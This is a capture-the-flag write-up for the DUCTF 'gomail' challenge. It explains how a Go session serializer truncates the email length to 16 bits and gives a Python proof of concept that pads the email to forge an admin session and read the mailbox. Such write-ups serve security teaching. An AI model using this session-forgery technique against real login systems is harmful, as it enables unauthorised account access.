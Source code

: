 /email checks if our session email is mc-fat@monke.zip and if isAdmin in the session is true.

The vulnerability is in how the session claim object is being serialized.
There is an integer overflow in how the email's length is written to the buffer. Because the email length is casted to uint16 from int, it gets wrapped around (65536 -> 0).

```go
func (ss *SessionSerializer) writeLength(l int) {
    // truncates int to unsigned 16 bit
    el := uint16(l)
    ss.growBuf(2)
    bs := make([]byte, 2)
    binary.LittleEndian.PutUint16(bs, el)
    ss.buf.Write(bs)
}
```

So we can control how the remaining buffer is read for `ss.writeExpiry` and `ss.writeIsAdmin`.

The code expects this:
| 2 bytes strlen | email | 8 bytes expiry | 1 byte isAdmin (needs to be 't') |

PoC
```python
import requests

UNDERFLOW_BYTES = 65536
timestamp = "A"*8
isAdmin = 't'
email = 'mc-fat@monke.zip'
padding = (UNDERFLOW_BYTES - 8 - 1) * 'A'

payload = email + timestamp + isAdmin + padding

URL = 'https://web-gomail-3f344244ceb2.2025.ductf.net/'
payload = {
    'email': payload,
    'password': 'password'
}

r = requests.post(URL+'login', json=payload)
token = r.json().get('token')

headers = {
    'X-Auth-Token': token
}
r = requests.get(URL + 'emails', headers=headers)
print(r.text)
# print(payload)
```

Flag: DUCTF{g0v3rFloW_2_mY_eM41L5!}

Solved by: benkyou